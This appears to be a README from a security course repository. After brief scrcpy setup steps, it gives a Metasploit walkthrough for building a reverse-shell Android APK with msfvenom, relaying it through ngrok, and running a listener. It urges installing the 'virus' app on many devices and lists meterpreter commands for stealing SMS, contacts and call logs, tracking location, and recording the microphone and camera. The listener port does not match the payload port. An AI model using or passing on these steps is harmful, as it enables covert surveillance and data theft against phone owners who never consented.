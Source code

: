 # LINUX GUIDE
# Hacking-and-Patching
The 3rd course of the fundamentals of computer and network security specializations. Hacking and patching, it is a short course title, but it says it all. This repository explains how to hack devices with command injection vulnerability.

# 1. SCRCPY MODULE
Using the scrcpy module is quite easy but still brainstorming on it additional functions
  # STEPS:
  1. Install scrcpy: use the command 'apt-get install scrcpy'
  2. Enable developer mode on the android to be coonected to the PC
  3. Enable USB Debugging 
  4. Connect the USB cord to the PC
  5. In your linux VM enable connection to the VM
  6. Type 'scrcpy' after successful connection to the VM and you should see your phone screen displayed on your VM

# 2. METASPLOIT FRAMEWORK
Knowledge is power, especially when it’s shared. A collaboration between the open source community and Rapid7, Metasploit helps security teams do more than just verify vulnerabilities, manage security assessments, and improve security awareness; it empowers and arms defenders to always stay one step (or two) ahead of the game.
  # ANDROID HACKING: using NGROK
  First make sure your antivirus does not interfere with your machine 
  1. download from link: https://ngrok.com/
  2. download the file and extract using 'sudo tar xvzf ngrok-stable-linux-amd64.tgz' in the directory where it was downloaded
  3. first sign-up to get an auth-token
  4. Then in your VM command line input: './ngrok authtoken <authtoken>'
  5. msfvenom --platform android -p android/meterpreter/reverse_tcp LHOST=4.tcp.ngrok.io LPORT=4444 R > /home/kali/Hacking/android-exploitation/virus.apk 
  
  Here:
  -p indicates a payload type
  android/metepreter/reverse_tcp specifies a reverse meterpreter shell would come in from a target Android device
  LHOST is your local IP
  LPORT is your IP’s listening port
  /home/kali/Hacking/android-exploitation would give the output directly
  apk is the final malicious app
  If you navigate to the output path /home/kali/Hacking/android-exploitation, we’ll find the injected apk file
  
  6. We need to set a listener on our PC/server. If the target device installs and opens the “virus.apk” application, it’ll start sending a reverse connection to our listener.
  To create a listener using Metasploit, run these commands:
  7. Run 'msfconsole'
  8. use exploit/multi/handler
  9. set payload android/meterpreter/reverse_tcp
  10. set LHOST 4.tcp.ngrok.io
  11. set LPORT 5544
  12. exploit 
  
  install the 'apk' on the targetted device and open the app. If the user opens the app, it’ll send a connection to our listener and create a session. We can install the virus     app on many devices.
  To sell all sessions, run "background" command from the listener console. It’ll show all available connected devices sessions
  Available Commands
We can then enter help to see all the Android meterpreter commands.

I’m sharing some commands. Have a look:

  
      Command                  Description
  1. app_list	              Show all installed applications
  2. app_install	          Request to install apk file
  3. app_run	              Start an application
  4. app_uninstall	        Request to uninstall application
  5. dump_contacts	        Get all contacts and save in our PC
  6. dump_calllog	          Get call log and save in our PC
  7. dump_sms	              Get all sms and save in our PC
  8. send_sms	              Send sms to any number
  9. geolocacte	            Current lat and long of the device
  10. record_mic	          Sound recorder
  11. webcam_list	          Available cameras
  12. webcam_snap 1/2/3	    Take photo by selecting camera
  13. webcam_stream 1/2/3	  Open specific camera and live streaming

  
  
# Detecting Command Injection
The pdf "Commix: Detecting and exploiting command injection flaws.", is by Anastasios Stasinopoulos, Christoforos Ntantogian, Christos Xenakis from Department of Digital Systems, University of Piraeus.

